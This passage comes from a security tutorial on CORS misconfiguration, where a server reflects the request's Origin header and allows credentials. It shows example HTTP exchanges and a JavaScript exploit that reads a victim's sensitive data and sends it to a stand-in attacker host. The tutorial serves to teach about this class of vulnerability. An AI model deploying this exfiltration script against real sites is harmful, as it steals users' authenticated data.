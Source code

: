 Some applications need to provide access to a number of other domains. Since maintaining a list of allowed domains requires an ongoing effort, many take the easy route which adds more risk in creating mistakes that introduces a vulnerability.

One way developers do this is by reading the `Origin` HTTP header from requests and includes a response header stating that the requesting origin is allowed. So if an attacker adds an `Origin` header to a request or modifies its value like the following:
```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://attacker-owned-website.com
Cookie: sessionid=...
```
The server will then send a response like the following:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://attacker-owned-website.com
Access-Control-Allow-Credentials: true
...
```
These headers state that access is allowed from the requesting domain (`attacker-owned-website.com`) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session.

Because the application accepts arbitrary origins, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information, an attacker can retrieve these information by placing a script like the following on their website:
```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='https://attacker-owned-website.com/log?key='+this.responseText;
};
```